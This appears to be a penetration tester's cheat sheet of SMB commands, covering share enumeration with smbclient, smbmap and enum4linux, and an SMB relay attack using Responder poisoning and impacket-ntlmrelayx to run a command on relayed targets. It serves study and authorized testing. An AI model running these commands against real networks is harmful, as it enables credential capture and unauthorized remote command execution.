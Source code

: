 ```
smbclient -L \\\\$IP\\
```

```
smbclient \\\\$IP\\DIRECTORY
```

```
smbclient -L //$DomainIP -U $DomainName/$DomainUsername
```

```
smbclient -L //$DomainIP/DIRECTORY -U $DomainName/$DomainUsername
```

/etc/samba/smb.conf

```
searchsploit Samba 2
```

```
smbmap -H $ip -u 'anonymous' -p 'anonymous'
```

```
enum4linux -a -u "<username>" -p "<passwd>" <IP>
```

```
smbclient //$ip/directory -U '<username>'
```

## SMB Relay Attack

```
nmap --script=smb2-security-mode.nse -p445 $IP
```

```
sudo responder -I eth1 -dwPv
```

![](Pasted%20image%2020231021151759.png)

```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

